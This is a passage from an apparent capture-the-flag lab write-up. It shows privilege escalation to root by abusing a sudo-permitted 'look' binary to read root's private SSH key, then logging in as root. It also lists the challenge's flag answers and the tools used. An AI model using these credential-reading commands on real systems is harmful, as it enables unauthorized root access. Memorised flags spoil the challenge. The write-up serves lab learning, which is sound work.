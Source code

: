 ### 10. Privilege Escalation to root
- Checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Output:
  ```
  User think may run the following commands on lookup:
      (ALL) /usr/bin/look
  ```
- Used GTFOBins trick:
  ```bash
  sudo look '' /root/.ssh/id_rsa
  ```
- **Explanation**: `look` searches for words in a file starting with a string. With an empty string (`''`), it outputs the entire file if readable as root. We targeted `/root/.ssh/id_rsa` to get the root SSH key.
- Copied the key to `rootrsa`:
  ```bash
  nano rootrsa
  chmod 600 rootrsa
  ```
- Logged in:
  ```bash
  ssh -i rootrsa root@[VICTIM IP]
  ```

### 11. Root Flag
- Listed files:
  ```bash
  ls
  ```
- Read flag:
  ```bash
  cat root.txt
  ```
- Content: `5a285a9f257e45c68bb6c9f9f57d18e8`

---

## Answers to Challenge Questions
1. **User flag**: `38375fb4dd8baa2b2039ac03d92b820e`
2. **Root flag**: `5a285a9f257e45c68bb6c9f9f57d18e8`

---

## Tools Used
- `nmap`: Port scanning.
- `gobuster`: Directory enumeration.
- `hydra`: Brute-forcing.
- Metasploit: elFinder exploit.
- Custom Python script: Username enumeration.
- `ssh`: Remote access.

---


